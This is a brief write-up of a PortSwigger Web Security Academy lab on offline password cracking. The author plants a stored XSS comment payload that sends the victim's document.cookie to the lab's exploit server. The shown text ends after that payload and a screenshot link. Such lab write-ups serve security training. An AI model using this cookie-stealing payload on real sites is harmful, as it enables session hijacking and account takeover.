 \- https://portswigger.net/web-security/authentication/other-mechanisms

![](images/Offline%20password%20cracking/1.png)

\---------------------------------------------

First I will create a comment with this payload to send the cookie to the
exploit server:

\`\`\`

\<script\>var i=new
Image;i.src="https://exploit-0a500006035b831a8133a1940130000d.exploit-server.net/log?cookie="+document.cookie;\</script\>

\`\`\`

![](images/Offline%20password%20cracking/2.png)
